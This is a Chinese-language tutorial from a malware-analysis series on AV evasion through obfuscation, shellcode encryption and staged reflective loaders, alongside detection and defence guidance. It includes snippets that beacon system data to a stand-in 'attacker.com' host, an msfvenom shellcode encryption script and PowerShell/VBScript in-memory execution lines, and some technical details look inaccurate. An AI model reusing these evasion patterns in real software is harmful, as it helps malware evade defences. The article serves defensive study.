

# 恶意代码分析与免杀对抗（11）· 免杀原理：混淆与加密与加载器

> [!abstract] TL;DR
> - 混淆、加密、加载器构成现代恶意代码免杀的三大支柱，通过代码变形、有效载荷隐藏、分阶段解密逐级降低特征暴露面
> - 加密与分阶段加载的核心优势在于**延迟特征暴露**：只有运行时才解密出真实代码，绕过文件层面和内存初始镜像的静态检测
> - Shellcode 加密采用多种对称算法和动态密钥管理方案，从硬编码到从C2获取，关键在于密钥在代码路径上的"时间最短化"
> - 签名滥用（签名合法的系统工具执行恶意Shellcode）和原生应用执行（LOLBins）绕过的不是代码本身，而是**加载器和调用链的合法性**
> - 检测此类对抗的关键在于行为监控（API调用序列、内存写入-执行转换）而非文件特征，需要重点关注解密、自修改、注入这三大行为节点

## 概述与定位

免杀（Evasion）不是单一技术，而是一套**分层对抗体系**。在前面的章节中，我们学过了进程注入、内核Hook、反调试等**执行层面**的规避；现在要讨论的是**代码本身层面**的隐匿——通过混淆、加密、分阶段加载这三大支柱，让恶意代码在上传、存储、传输、加载全链路上都尽可能降低被特征识别的风险。

### 为什么需要这三大支柱？

一个完整的恶意代码生命周期包括五个关键时刻：
1. **编写与编译**：源代码到二进制
2. **传输与存储**：磁盘、网络通道、内存镜像
3. **加载与解码**：获取密钥、解密、映射到内存
4. **执行与运行**：代码真正执行前的最后一刻
5. **行为与通信**：已经太晚，逃不掉了

**混淆**的目标是对抗阶段 1-2（编译后看起来不像坏东西），**加密**的目标是对抗阶段 2-3（看不见真实代码），**分阶段加载器**的目标是分散阶段 3-4（真实payload从不完整地存在）。三者配合形成**纵深防御**。

### 与相邻篇章的边界

- [[06.进程注入技术全谱|第6篇]]讲的是"注入什么"（payload 形态），本篇讲"注入前怎么藏"（payload 变形）
- [[10.防御规避：反虚拟机与反调试与反沙箱|第10篇]]是**执行环境检测**（躲避分析工具），本篇是**代码本身隐匿**（躲避特征检测）
- [[12.直接系统调用与unhooking|第12篇]]讲调用层的直接化，本篇讲代码层的加密化——往往混用

## 原理与机制




### 混淆：代码的"变脸"

混淆不是加密。加密是"我把东西锁上了，钥匙在这儿"，混淆是"我把这东西改得面目全非，但它功能一样"。例如：

```c
// 原始代码
int add(int a, int b) { return a + b; }

// 混淆后（控制流平坦化）
int add(int a, int b) {
  int state = 0, result = 0;
  while (1) {
    switch(state) {
      case 0: if (condition_1) state = 1; break;
      case 1: result = a + b; state = 2; break;
      case 2: return result;
    }
  }
}
```

这两段代码的**语义完全相同**，但反汇编后的第二个版本会让分析人员困惑：看不出这是加法，只看到一堆跳转和条件判断。混淆的有效性来自于它**保留了功能但摧毁了可读性**。

混淆的四大类别：

**①死代码插入**：在关键代码段周围塞入永不执行的分支。反汇编工具会被迷惑，自动化分析会走错路。

**②控制流平坦化**：把原本线性的控制流图（CFG）转成一个平坦的状态机。任何条件跳转、循环都变成 switch case，堆在一起。静态分析需要重建CFG，代价极高。

**③常数编码**：把字面常数替换为计算表达式。例如 `memcpy` 的字符串 `0x40000000` 不直接出现，而是 `(0x20000000 + 0x20000000)`，或者 `((buffer_addr >> 8) << 8)`。这能绕过基于字节序列的特征匹配（YARA、字符串搜索）。

**④间接调用**：API 不直接调用，而是通过函数指针、虚函数表、或反射获取。这防止了**导入表（IAT）特征**的识别——分析工具看不到 `call CreateRemoteThread`，只看到 `call rax`。

### 为什么混淆有效？

混淆有效的根本原因是：**静态分析与动态分析都需要时间**。

- **静态分析**的对手是 IDA、Ghidra 这类反汇编器。它们需要**精确重建程序的数据流和控制流**，才能给出准确的符号化表示。如果你的代码是平坦化的或充满死代码，CFG 就会膨胀；函数边界就会模糊；自动化的函数名识别（如 FLIRT 签名匹配）就会失效。
- **动态分析**的对手是调试器和沙箱。要理解一个被混淆的函数做了什么，调试员需要单步执行、下条件断点、追踪寄存器变化。对于包含大量无关分支的代码，这个过程会**指数级膨胀**。

### 加密：真正的隐身

混淆只是让代码看不懂，但**二进制特征仍然存在**。关键词搜索、特征匹配仍能命中。加密才是彻底的隐身：加密的代码**根本看不见**。

加密链的构成：

```
[加密Payload] + [密钥获取逻辑] + [解密算法] + [内存解密]
```

分析者见到的只是：
1. **密文数据**：看起来像随机字节，没有任何有意义的特征
2. **解密器（Decryptor）**：通常是一小段循环，做 XOR、RC4、AES 之类的运算
3. **未加密的引导程序（Stub）**：这部分不能加密，因为它要先运行，然后才能解密后续代码

关键问题：**密钥的来源和存储**。密钥管理方案决定了加密的有效性：

| 密钥来源 | 优点 | 缺点 | 典型场景 |
|---------|------|------|---------|
| **硬编码** | 简单快速 | 字符串搜索、逆向直接得出 | 单机恶意软件、初期样本 |
| **派生（Derived）** | 密钥不显式存储 | 派生函数本身可能有特征；需要已知数据 | WinRAR密钥派生、某些加壳 |
| **从C2获取** | 每个样本不同密钥 | 需要网络通信；样本首先要运行起来 | 高级恶意软件、APT |
| **从磁盘/注册表读取** | 密钥独立更新 | 容易被取证人员找到；密钥本身可能被拦截 | 勒索软件、木马后门 |
| **多层派生** | 高安全性 | 派生时间长、代码体积大 | 银行恶意软件、高端样本 |

**两个陷阱**：

其一，**解密器本身的特征**。大多数解密器是一个简单的循环：
```
for(int i=0; i<size; i++) payload[i] ^= key[i%keylen];
```
或者：
```
RC4_init(key); RC4_crypt(ciphertext, plaintext, size);
```

这样的指令序列是**可特征化的**。分析者见到 `lea、xor、loop` 的特定模式就知道"这是个解密器"。反对措施是混淆解密器本身。

其二，**密钥的"活跃时间窗口"**。密钥必须存在于内存的某个地方（解密前后），即使是短暂的。在这个窗口内，内存监控、进程快照都能获取密钥。现代方案采用**即时派生、即时销毁**：密钥只在解密那一刻生成，解密完立即覆盖。

### 分阶段加载器：延迟与分散

一阶段加载：
```
[Shellcode加密] + [硬编码密钥] → 直接执行
```

问题：整个Shellcode都在内存里，一旦进程被dump，全露。

二阶段加载：
```
[Stage 1: 引导程序] 
  ↓ (解密)
[Stage 2: 完整Shellcode]
```

三阶段加载（现代APT常用）：
```
[Stage 1: 最小化引导] 
  ↓ (解密、从C2下载密钥)
[Stage 2: 加载器/反射DLL加载]
  ↓ (解密、从C2下载真实Payload)
[Stage 3: 完整Payload（信息采集、植入后门、数据外传）]
```

**分阶段的威力在于**：
1. **特征分散**：真实Payload从不完整地存在于某个文件或初始内存镜像
2. **密钥分化**：不同阶段用不同密钥，甚至不同的密钥来源
3. **时间拉长**：Payload 的真实特征只在执行时才全部展现，为防御留下极小的检测窗口

### 签名滥用与LOLBins

签名滥用（Code Signing Abuse）和 Living Off the Land Binaries（LOLBins）的核心思想是：**我不执行我自己的恶意二进制，我让系统的合法工具执行我的Shellcode**。

常见方案：
- **DLL Hijacking + 合法应用**：应用程序默认会加载某个DLL，我就在该位置放一个恶意DLL，系统自动加载并执行
- **Shellcode 注入到合法进程**：如 `svchost.exe`、`explorer.exe`，注入Shellcode后调用；从外看，只是合法的 svchost 在运行
- **参数化执行**：`powershell.exe` 本身是合法的，但我给它传一个Base64编码的Shellcode，它就帮我执行了
- **COM对象滥用**：Windows COM框架内存在许多默认可实例化的对象，某些对象的方法可以直接执行代码（如 `WinRM.Automation`）

这些方案之所以有效，不是因为**代码本身隐隐约约**，而是因为**调用链的合法性**：分析工具看到的是 `powershell.exe` 在做 `ScriptBlock` 记录，这对PowerShell来说是正常的，所以许多检测规则就放过了。

## 混淆、加密与加载器的深度详解

### 混淆的层次与代价

混淆的四种关键技术：

**控制流平坦化（CFG Flattening）的细节**：

原始CFG（3个基本块）：
```
Block A: x = input
  ↓
Block B: if (x > 0) goto C else goto E
  ↓
Block C: y = x * 2
  ↓
Block E: return y
```

平坦化后的CFG（1个switch块）：
```
state = entry
while(true) {
  switch(state) {
    case entry:
      x = input
      state = (x > 0) ? b_c : b_e
      break
    case b_c:
      y = x * 2
      state = b_e
      break
    case b_e:
      return y
  }
}
```

这个变换的代价：
- **代码膨胀**：原始代码100字节，平坦化后300字节（多了状态机开销）
- **性能损耗**：每条指令都需要先 switch dispatch，缓存友好性下降20-40%
- **静态分析复杂度**：CFG的顶点数从3变成1（单一loop），但边的复杂度指数增长

这也是为什么**轻度混淆**（只混淆关键函数，如密钥派生、反调试检查）比全面混淆更实用：全面混淆会导致代码体积爆炸，性能下降明显，容易被沙箱识别为"异常的计算模式"。

**间接调用的演进**：

一级间接：
```c
typedef HANDLE (WINAPI *pCreateRemoteThread)(...);
pCreateRemoteThread = (pCreateRemoteThread)GetProcAddress(
    GetModuleHandle(L"kernel32.dll"), 
    "CreateRemoteThread"
);
pCreateRemoteThread(hProcess, ...);
```

检测特征：`GetProcAddress("CreateRemoteThread")` 这个字符串仍然存在。

二级间接（字符串编码）：
```c
char encoded[] = { 'C'^0xAA, 'r'^0xAA, 'e'^0xAA, ... };
for(int i=0; i<len; i++) encoded[i] ^= 0xAA;
// decoded = "CreateRemoteThread"
pCreateRemoteThread = GetProcAddress(..., (char*)decoded);
```

检测特征：XOR循环的模式，可被模式匹配识别。

三级间接（哈希匹配）：
```c
DWORD hash = fnv1a_hash("CreateRemoteThread");
// 在kernel32导出表中搜索匹配该hash的函数
FARPROC pFunc = find_function_by_hash(kernel32_base, hash);
```

这样字符串完全消失，只留下：
- FNV1a哈希算法的代码
- 一个硬编码的哈希值
- PE导出表遍历的代码

但问题是：哈希碰撞（虽然FNV1a很少发生，但不是零概率）和**导出表遍历的代码特征**。

### 加密方案的选择与密钥管理

**对称加密算法的选择**：

| 算法 | 优点 | 缺点 | 恶意代码使用情况 |
|------|------|------|------------------|
| **XOR** | 0字节开销；超快速 | 密钥短时容易穷举；多密文可恢复明文 | 低端样本、初期木马 |
| **RC4** | 快速；输出随机性好 | 密钥调度有弱点（KSA）；明文/密文关联性 | 中等恶意软件、Metasploit Encoder |
| **AES** | NIST标准；硬件加速 | 较慢（相对）；需要库或自实现 | 高端恶意软件、APT样本 |
| **ChaCha20** | 流密码；高速；无硬件依赖 | 需要库；不如AES普及 | 现代样本、某些勒索软件 |

**XOR的陷阱**：看起来最简单，实际上最脆弱。如果密钥长度小于Payload长度，密钥会重复出现，导致Payload的某些部分用相同的字节进行XOR。如果分析者知道Payload的某些部分的明文（如PE头的 `MZ` 签名），就能直接推导出密钥。

**密钥派生的逻辑**：

硬编码密钥（最朴素）：
```c
unsigned char key[] = {0x12, 0x34, 0x56, ...};
decrypt(ciphertext, key, size);
```

从输入数据派生：
```c
// 例如：从当前进程的base address派生密钥
unsigned char seed[8];
memcpy(seed, (void*)&decrypt, 8);  // 函数地址的低8字节
DWORD hash = fnv1a(seed, 8);
// 用hash作为密钥
```

这样密钥不是固定的，每次进程加载的位置不同，密钥也不同（因为ASLR）。但如果分析者知道派生算法，仍能重建密钥。

从C2动态获取（最强）：
```c
// Stage 1: 连接C2，获取密钥
socket = connect_to_c2("attacker.com", 443);
send_beacon(socket, system_info);
key = recv_key(socket);  // 接收密钥
close(socket);

// Stage 2: 用收到的密钥解密Payload
decrypt(stage2_ciphertext, key, size);
execute(stage2);
```

代价是Stage 1必须能运行（不能被太早拦截），且需要网络访问；优势是每个受感染的样本都有**唯一的密钥**，一旦某个密钥被泄露，也只影响用该密钥的那个样本。

### 分阶段加载的架构演进

**单阶段（最朴素）**：
```
┌─────────────────────┐
│ Stub (Decryptor)    │
│ + Encrypted Payload │
└─────────────────────┘
         ↓ (Stub解密Payload)
┌─────────────────────┐
│ Decrypted Payload   │
│ (完整恶意代码)       │
└─────────────────────┘
         ↓ (执行)
```

问题：一旦进程被dump，整个Payload都暴露。

**两阶段**：
```
┌──────────────────────────┐
│ Stage 1 Stub             │
│ + Encrypted Stage 2      │
└──────────────────────────┘
         ↓ (解密)
┌──────────────────────────┐
│ Stage 2 (完整恶意代码)    │
└──────────────────────────┘
         ↓ (执行)
```

改进：如果在Stage 1早期dump，只能看到Stub，看不到真实Payload。但如果在Stage 2已解密时dump，仍然会暴露。

**三阶段（反射DLL注入）**：
```
┌──────────────────────────┐
│ Stage 1 Stub             │
│ + Encrypted Stage 2 Stub │
└──────────────────────────┘
         ↓ (解密 Stage 2)
┌──────────────────────────┐
│ Stage 2: DLL Loader      │
│ + Encrypted Stage 3 DLL  │
└──────────────────────────┘
         ↓ (Stage2解密Stage3，反射加载到内存)
┌──────────────────────────┐
│ Stage 3: 真实恶意DLL     │
│ (在内存中执行，无文件)    │
└──────────────────────────┘
```

优势：
- **文件层面**：磁盘上只有Stage 1，Stage 2/3都是网络下载或嵌入的加密数据
- **内存层面**：Stage 3（真实恶意代码）不经过PE加载器，直接在内存中重定位，不会产生"合法DLL加载"的事件日志
- **时间分散**：Stage 1运行→Stage 2下载/解密→Stage 3加载，跨越多个时间点，检测窗口分散

**多阶段反射加载的伪代码**：
```c
// Stage 1
void Stage1() {
    LPVOID buffer = malloc(encrypted_stage2_size);
    memcpy(buffer, encrypted_stage2_data, encrypted_stage2_size);
    
    // 解密Stage 2
    decrypt(buffer, stage2_key, stage2_size);
    
    // 反射执行（不使用LoadLibrary）
    LPVOID dllbase = reflective_load_dll(buffer);
    typedef void (*Stage2Func)(void);
    Stage2Func stage2 = (Stage2Func)((char*)dllbase + export_offset);
    stage2();
}

// Stage 2（DLL加载器）
__declspec(dllexport) void ReflectiveLoader() {
    LPVOID buffer = malloc(encrypted_stage3_size);
    memcpy(buffer, encrypted_stage3_data, encrypted_stage3_size);
    
    // 从C2下载密钥或Stage 3
    DWORD stage3_key = download_key_from_c2();
    decrypt(buffer, stage3_key, stage3_size);
    
    // 加载Stage 3
    LPVOID payload_base = reflective_load_dll(buffer);
    // 寻找导出函数并执行
    typedef int (*EntryFunc)(void);
    EntryFunc entry = (EntryFunc)resolve_export(payload_base, "DllMain");
    entry();
}
```

### 签名滥用的实战案例

**案例1：DLL Hijacking + System32工具**

某应用程序（假设 `legitapp.exe`）的默认加载路径：
```
System32\MSVCRT.dll
C:\Program Files\LegitApp\MSVCRT.dll  ← DLL搜索优先级更高
```

攻击者在 `C:\Program Files\LegitApp\` 下放一个恶意的 `MSVCRT.dll`，该DLL在 `DllMain` 中执行恶意代码，然后转发所有导出到真正的 System32\MSVCRT.dll。结果：
- 进程启动时，系统看到的是 `legitapp.exe` 加载 `MSVCRT.dll`（完全合法）
- 但实际上执行的是恶意DLL
- 文件签名：`legitapp.exe` 由合法公司签名，`MSVCRT.dll` 也是微软签名（真正的那个）

防御工具可能只检查 "这个EXE是否有有效签名"，答案是"是"，所以放过了。

**案例2：PowerShell + 编码Shellcode**

```powershell
# 真实样本（以Emotet为例）
$b64 = "TVqQAAMAAAAEAAAA...";  # Base64编码的PE
$bytes = [Convert]::FromBase64String($b64);
$assembly = [System.Reflection.Assembly]::Load($bytes);
$entryPoint = $assembly.GetType("Namespace.Main", $true);
[Namespace.Main]::Execute();
```

这看起来是什么？一个PowerShell脚本在加载.NET程序集。从事件日志看：
- 进程：`powershell.exe`
- 活动：加载程序集（正常）
- Cmdline：如果没记录完整Cmdline，或只记录 `-NoProfile -Command ...`

某些检测只关注 "有没有执行可疑的native API"，但这里的一切都在.NET框架内，API调用看不到Shellcode，只看到 `Assembly.Load` 和反射调用——这对.NET应用来说正常得不能再正常。

**案例3：COM对象滥用**

```vbscript
' COM对象执行命令
Set objWMIService = GetObject("winmgmts:")
Set objSWbemServices = objWMIService
Set colItems = objWMIService.ExecQuery("Select * from Win32_Process")
For Each objItem in colItems
    If objItem.CommandLine Like "*cmd.exe*" Then
        objWMIService.Create("powershell -Command IEX(New-Object..."
    End If
Next
```

这看起来是什么？一个VBScript查询进程（管理员工具的典型操作）。而且 `WMI` 是Windows Management Instrumentation，Windows系统默认信任它。

## 工具视角与实战

### 混淆工具与框架

**ConfuserEx**（开源.NET混淆器，最流行）：
- 控制流平坦化
- 字符串编码
- 常数编码
- 代理调用
- 命名空间混淆

用法：
```
ConfuserEx.exe --project project.crproj
```

输出是一个混淆后的程序集，反汇编后 ILDasm 看到的是 `nop` 和无意义的名字。

**Genetic Algorithm based code obfuscation**（LLVM passes）：
- 编译时自动应用混淆
- 支持条件编译（混淆敏感函数）
- 代码膨胀可控

**手工混淆的关键点**：
- 只混淆关键函数（密钥派生、反调试检查），不混淆整个程序
- 混淆不改变功能，所以单元测试仍然通过
- 定期更新混淆策略，防止特定混淆模式成为特征

### 加密与解密的工具链

**Python加密Shellcode的脚本**（Metasploit、自定义工具）：

```python
import os
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes

shellcode = bytes.fromhex("fc4883e4...")  # msfvenom生成
key = get_random_bytes(32)
iv = get_random_bytes(16)

cipher = AES.new(key, AES.MODE_CBC, iv)
ciphertext = cipher.encrypt(shellcode)

# 输出为C数组
print(f"unsigned char key[] = {{{','.join(hex(b) for b in key)}}};")
print(f"unsigned char iv[] = {{{','.join(hex(b) for b in iv)}}};")
print(f"unsigned char ciphertext[] = {{{','.join(hex(b) for b in ciphertext)}}};")
```

**现成框架**：
- **Metasploit Encoders**：内置XOR、Base64、shikata_ga_nai（多态编码器，每次编码结果不同）
- **Donut**：C→Shellcode转换工具，内置加密支持
- **Macaw**：C2框架，自动处理Shellcode加密和分阶段加载

### 加载器的实现细节

**反射DLL加载（Reflective DLL Injection, RDI）**：

原理：Windows PE加载器（kernel32的 `LdrLoadDll`）会做很多事情——维护模块列表、注册回调、绑定导入表。如果我们自己手动做这些事，就能在内存中加载DLL而不被模块枚举工具发现。

关键步骤：
```c
1. 定位DLL在内存中的PE头
2. 解析PE头（DOS header, PE signature, Optional header）
3. 遍历section headers，复制每个section到对应的内存地址
4. 重定位：遍历.reloc section，调整引用
5. 绑定导入：遍历.idata section，查找导入函数地址，修复IAT
6. 执行TLS回调（如果有）
7. 调用DllMain的entry point
```

现成库：
- **sRDI（Shellcode Reflective DLL Injector）**：生成一段Shellcode，用来加载RDI
- **LdrLoadDll Hook**：通过inline hook禁用真正的加载器

### 动态密钥获取的实战

假设一个APT样本需要从C2获取密钥来解密Stage 2：

```c
// 建立HTTPS连接（使用Windows API或libcurl）
HINTERNET hInternet = WinHttpOpen(L"User-Agent", 0, 0, 0, 0);
HINTERNET hConnect = WinHttpConnect(hInternet, L"attacker.com", 443, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"GET", L"/beacon", 
                                       NULL, NULL, NULL, WINHTTP_FLAG_SECURE);

// 发送beacon（包含系统信息）
WinHttpSendRequest(hRequest, NULL, 0, beacon_data, beacon_size, beacon_size, 0);

// 接收密钥
DWORD dwSize = 0;
WinHttpQueryDataAvailable(hRequest, &dwSize, 0, 0);
unsigned char *key = malloc(dwSize);
DWORD dwRead = 0;
WinHttpReadData(hRequest, key, dwSize, &dwRead);

// 解密Stage 2
decrypt(stage2_ciphertext, key, stage2_size);

// 立即销毁密钥（防止内存取证）
SecureZeroMemory(key, dwSize);
free(key);
```

检测这种行为的难点：
- 网络连接本身看起来像普通的HTTPS通信（可能是伪装的域名、CDN、或合法域名）
- 内存中密钥短暂存在，dump内存的窗口很小
- 如果C2被拦截，也看不到密钥（HTTPS加密）

## 工具视角与实战

### 检测混淆代码的实践

**静态检测**：
1. **熵分析**：混淆后的代码中指令的多样性增加，熵升高；但这也是正常编译优化的表现
2. **CFG复杂度**：异常复杂的CFG（大量冗余跳转）是混淆的标志；但平坦化也会产生这样的CFG
3. **函数大小分布**：混淆导致大量小函数和极少数巨大函数；但某些合法代码也这样
4. **符号缺失**：没有调试信息、导入表为空或最小化

**动态检测**：
1. **代码自修改**：监控内存写入后立即执行的指令（W^X违反）
2. **过度的多态性**：同一段代码在不同运行中的指令序列完全不同
3. **调试器陷阱**：大量无用的中断、陷阱指令

### 检测加密Payload的实践

**文件级检测**：
- 寻找"加密数据块"的特征：大段的随机字节，熵接近8.0
- 配合Stub检测：如果文件中存在解密循环（XOR, RC4等）和高熵数据块，高度怀疑
- 但这样的检测容易false positive（压缩文件、正常二进制的数据段都高熵）

**内存级检测**：
- **解密时刻的陷阱**：在解密例程的entry和exit处下断点，观察内存变化
- **密钥转储**：在解密前立即dump进程，提取密钥
- **行为链追踪**：寻找"写入新代码→立即执行"的序列

**网络检测**：
- 寻找"建立连接→短暂通信→关闭"的模式（beacon）
- 分析C2的TLS握手信息（证书信息、密码套件）
- 对可疑的HTTPS流量进行解密（MITM代理）

### 签名滥用的检测

**文件签名链检查**：
- 即使EXE有有效签名，也检查它加载的DLL
- DLL来自非标准位置（不在System32、SysWOW64）就可疑
- 比较时间戳：EXE的签名时间是否远早于DLL的修改时间

**行为链检测**：
- 监控 LoadLibrary 调用及其路径参数
- 记录 "非System32 DLL加载" 事件
- 关联进程与其加载的DLL的签名信息

**PowerShell特定检测**：
- 启用PowerShell Script Block Logging（Win 10+）
- 监控 `System.Reflection.Assembly.Load(byte[])`
- 观察Base64解码的执行（如果解码后的数据进入Assembly.Load）
- 分析 ScriptBlock 的AST（抽象语法树），检测反射调用

## 安全性与正确使用

> [!caution]
> 本章讨论的混淆、加密、加载技术既用于恶意代码研究，也用于合法的代码保护。
> 
> **明确的合规边界**：
> - ✅ 对自有系统、授权环境、CTF靶场、学术研究的恶意样本进行分析和复现
> - ✅ 为自有软件应用混淆和加密以防止被逆向
> - ✅ 在公开的安全竞赛和研究论文中讨论技术原理
> - ❌ 制作或传播针对他人系统的恶意代码
> - ❌ 使用本文技术绕过他人的授权控制、商业防护
> - ❌ 针对真实生产环境的恶意软件开发提供成品配方或部署指南
> 
> 本文的目标是帮助防御者理解对手的手段，进而设计更好的防护；不是武器化。

### 防御者的反制手段

**对混淆的反制**：

混淆降低自动化分析的效率，但增加人工分析的成本。防御者的策略是：
1. **符号恢复**（Symbolic Execution）：使用符号执行引擎（如 Angr）自动推导函数功能，无需理解汇编
2. **动态追踪**：直接运行代码，记录所有指令和内存访问，自动生成功能总结
3. **隔离关键函数**：混淆通常集中在关键函数（密钥派生、反调试），只需突破这些

**对加密的反制**：

加密是最强的混淆，密钥是唯一突破口。防御者的策略是：
1. **窃取密钥**：在解密窗口内获取明文密钥（内存dump、调试、side-channel attack）
2. **穷举/派生**：如果密钥是从已知数据派生（如HWID、时间戳），自己推导
3. **比较化验**：不解密，而是计算有效载荷的哈希，与已知恶意软件库对比
4. **仪器化执行**：在虚拟机或模拟器中运行，在解密完成后立即转储内存

**对多阶段加载的反制**：

多阶段加载的难点是Stage 2/3不会落地磁盘。防御者需要：
1. **内存监控**：对可疑进程的内存进行持续监控，检测新分配的RWX内存
2. **API Hook**：Hook 关键API（VirtualAllocEx, WriteProcessMemory, CreateRemoteThread），记录参数
3. **进程镜像对比**：定期快照进程的内存，与上次快照对比，发现新代码
4. **网络+内存联动**：如果看到某进程建立可疑连接，立即dump其内存

### 防御工具与技术

**内存取证工具**：
- **Volatility**：分析内存dump，提取进程结构、线程、模块列表
- **WinDbg**：实时调试，下断点、单步执行、手动转储解密结果

**检测工具**：
- **Yara**：编写规则检测特定的解密器模式、混淆特征
- **Ghidra**（CAPA插件）：自动识别恶意代码的常见功能（密钥派生、进程注入等）
- **PE-Sieve**：扫描进程内存，识别注入的代码

**云沙箱与威胁情报**：
- **Cuckoo Sandbox**：自动化动态分析，记录所有行为
- **Sentinelone、Crowdstrike**：EDR产品，持续监控行为，即使代码被加密也能拦截异常行为

### 合理的防护设计原则

从攻防演进的历史看，混淆-检测-更强的混淆形成一个循环。但对防御者来说，有几个不变的原则：

1. **不要依赖单一防线**：不能只靠文件扫描（特征查询），必须加上行为检测（API监控）
2. **行为比特征更稳定**：恶意代码可以无限变化形态，但"进程注入-读敏感文件-网络通信"的行为模式相对固定
3. **重视初期阶段**：越早拦截越好。拦截Stage 1（引导程序）的成本远低于拦截Stage 3（真实恶意代码），因为此时对手还没有获得完整能力
4. **内存取证是最后堡垒**：当所有静态检测都被绕过，内存取证仍能复现真实代码

## 小结

混淆、加密、加载器构成现代恶意代码免杀的三大支柱，它们在不同的攻击阶段发挥作用：

- **混淆**对抗的是**代码可读性**——让逆向分析变成指数级复杂的工作
- **加密**对抗的是**特征匹配**——字符串搜索、YARA规则都失效，必须先解密
- **分阶段加载**对抗的是**完整性监控**——真实恶意代码永远不会完整地出现在某个时间点

但这些技术都不是银弹。防御者可以通过行为监控、内存取证、威胁情报等手段破防。未来的对抗方向是朝着"隐藏意图"而不是"隐藏代码"发展——通过时间延迟、环境检测、多重认证等方式，让恶意行为看起来合理，而不仅仅是让恶意代码看不见。这也是为什么[[10.防御规避：反虚拟机与反调试与反沙箱|第10篇]]的执行环境检测和本篇的代码隐匿往往配合使用——前者确保运行时刻是"合理的"，后者确保代码本身是"隐形的"。

## 相关阅读

- [[06.进程注入技术全谱|第6篇：进程注入技术全谱]] —— 了解Payload的注入方式
- [[10.防御规避：反虚拟机与反调试与反沙箱|第10篇：防御规避]] —— 执行时刻的对抗策略
- [[12.直接系统调用与unhooking|第12篇：直接系统调用与unhooking]] —— 绕过Hook层的技术
- [[32.hooks/11-process-injection|进程注入深入]] —— 与注入配合的加密与加载
- [[53.数字取证与事件响应/00.数字取证与事件响应总览|数字取证总览]] —— 内存取证应对免杀的手段
- [[72.抓包与协议分析实战/12.流量特征分析与检测绕过|流量特征分析]] —— 加密通信中的C2检测
- 官方文档：Windows PE Format (Microsoft Docs) | LLVM Obfuscation Passes

[[00.恶意代码分析与免杀对抗总览|⬆ 系列总览]] | [[10.防御规避：反虚拟机与反调试与反沙箱|← 上一章]] | [[12.直接系统调用与unhooking|→ 下一章]]